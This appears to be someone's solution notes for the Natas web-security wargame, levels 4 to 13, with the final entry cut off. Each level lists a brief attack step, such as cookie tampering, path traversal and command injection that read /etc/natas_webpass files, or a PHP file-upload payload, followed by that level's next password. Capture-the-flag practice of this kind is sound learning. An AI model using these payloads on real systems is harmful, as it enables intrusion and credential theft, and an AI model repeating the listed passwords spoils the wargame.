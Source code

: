 	Solution:  BurpSuite -> Repeat request & add Cookie: loggedin=1

	The_Next_Lvl_Password: 0RoJwHdSKWFTYR5WuiAewauSuNaBXned

________________________________________________________________
Natas_5 -> Natas_6

	Solution:  find /includes/secret.inc -> find secret -> FOEIUWGHFEEUHOFUOIU -> submit secret

	The_Next_Lvl_Password: bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

________________________________________________________________
Natas_6 -> Natas_7

	Solution: inspect -> found hint > /index.php?page=/etc/natas_webpass/natas8

	The_Next_Lvl_Password: xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 

________________________________________________________________
Natas_7 -> Natas_8

	Solution: view source -> get encoded secret -> hex2bin-> reverse string -> base64 decode -> secret is oubWYf2kBq

	The_Next_Lvl_Password: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

________________________________________________________________
Natas_8 -> Natas_9

	Solution: ; cat /etc/natas_webpass/natas10

	The_Next_Lvl_Password: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

________________________________________________________________
Natas_9 -> Natas_10

	Solution: . /etc/natas_webpass/natas11#

	The_Next_Lvl_Password: UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

________________________________________________________________
Natas_10 -> Natas_11

	Solution: view source -> analize the cookie, get the xor encryption key (it's eDWo) -> make new json, xor encrypt it -> base64 it -> change cookie-> get flag

	The_Next_Lvl_Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

________________________________________________________________
Natas_11 -> Natas_12

	Solution: inspect and change the file format from jpg to php -> upload php file that contains <?php echo file_get_contents("/etc/natas_webpass/natas13");?> -> visit given link to see your 'photo'

	The_Next_Lvl_Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

________________________________________________________________
Natas_12 -> Natas_13

	Solution: create file cat z.png a.php > r.png (png is 1x1 small img, php is <?php echo file_get_contents("/etc/natas_webpass/natas14");?> -> inspect and change .jpg to .php -> upload file
)
